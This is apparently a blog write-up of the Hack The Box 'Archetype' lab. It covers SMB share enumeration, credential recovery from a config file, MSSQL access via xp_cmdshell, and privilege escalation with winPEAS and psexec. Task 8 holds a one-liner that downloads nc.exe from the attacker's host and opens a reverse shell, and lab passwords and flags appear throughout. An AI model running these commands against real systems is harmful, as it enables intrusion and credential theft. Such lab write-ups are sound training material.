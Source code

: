 ```yaml
---
title: 'Archetype - HTB Starting Point Tier 2'
description: 'Writeup for Archetype box'
pubDate: 'Dec 13 2024'
heroImage: '/blog-placeholder-3.jpg'
---
```


## Archetype
*MSSQL, SMB, PS1, RCE*

**Task 1**  
Which TCP port is hosting a database server?

```bash
kali$ nmap -sV $TARGET --min-rate=2000

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Looks like the answer is 1433.

From the list above:
* 135: RPC. (Low level and insecure network comms to invoke a remote procedure)
* 139: Typically used by SMB to communicate with old devices. This is for SMB over NBT (NetBIOS over TCP/IP)
* 445: SMB server

This [stack overflow answer](https://superuser.com/a/694480) provides a great summary of the relationship between SMB and NetBIOS. In short: SMB and NetBIOS are different protocols, however to support legacy Windows systems, SMB can use the NetBIOS API to talk with older machines. See the diagram in the link.


**Task 2**  
What is the name of the non-Administrative share available over SMB?

```bash
kali$ smbclient -L $TARGET -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Looks like it is `backups`. (N.b. admin shares typically have a `$` suffix)


**Task 3**  
What is the password identified in the file on the SMB share?

```bash
kali$ smbclient //$TARGET/backups

smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
		5056511 blocks of size 4096. 2522480 blocks available

smb: \> print prod.dtsConfig
NT_STATUS_ACCESS_DENIED opening remote file prod.dtsConfig

smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

No permissions were allowed to print the file, however I could use get instead. By reading the file contents, we find this spicy connection string with these credentials `ARCHETYPE\sql_svc; M3g4c0rp123`

```xml
 <ConfiguredValue>
    Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;
</ConfiguredValue>
 ```


**Task 4**  
What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

Impacket is designed to deal with network packets, "providing low-level programmatic access". Looking through the [repo](https://github.com/fortra/impacket/tree/master), I can see `mssqlshell.py` and `mssqlattack.py` example files. The attack utilises the shell script. (N.b. These are classes, not scripts! :facepalm:). Looks like the script I'm after is `mssqlclient`. In Kali, this is already installed and on the path. It can be executed by `impacket-mssqlclient`.

```bash
kali$ impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@$TARGET -windows-auth
```

> We need the `-windows-auth` flag because the account belongs to the machine, not to the SQL service. As per the help menu: "this flag is specified to use Windows Authentication". It's like when you run a DB on your windows machine - there is often a default provisioned account specific to SQL, alternatively, you can authenticate to the DB via your machine/domain controller.

**Task 5**  
What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

[`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)


**Task 6**  
What script can be used in order to search possible paths to escalate privileges on Windows hosts?

`winpeas` apparently :shrug:


**Task 7**  
What file contains the administrator's password?

At this point, I can execute commands via `xp_cmdshell`. It seems pertinent to create a reverse shell. This will allow us a more stable connection and remove the need to type `xp_cmdshell` on every line. From the writeups I researched online, it seems like the answer to this question only comes by solving the next two tasks (including obtaining a reverse shell, looking for privesc opportunities, and the like). After all of that, the answer is `ConsoleHost_History.txt` in the `~/AppData/Roaming/...PSReadline/` folder


**Task 8**  
Submit user flag

```
# Kali
kali$ python3 -m http.server 80 &
kali$ nc -lvnp 443

# mssql client
mssql> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget 10.10.15.212/nc.exe -outfile nc.exe; .\nc.exe -e cmd.exe 10.10.15.212 443"

# Kali netcat session (reverse shell)
C:\Users\sql_svc\Downloads> type ..\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3
```

**Task 9**  
Submit root flag

Now that we have a reverse shell, we can download winPEAS from our attacking machine

```
C:\Users\sql_svc\Downloads> powershell -c wget http://10.10.15.212/winPEASx64.exe -outfile winPEASx64.exe
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Looking through the output of winPEAS, we can take a look for anything interesting that we could easily leverage. Unfortunately for me, unlike the writeup for the box, winPEAS did not suggest the `ConsoleHost_History.txt` file. In any case, looking at the file, we find some credentials, as seen below. To gain admin, we can use the `runas` command

```cmd
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

From here, I tried to make use of a `runas` command, however it would not let me type in a password. As a result, I instead used impacket's `psexec` script.

```
kali$ impacket-psexec administrator@$TARGET

Password: ***

C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```
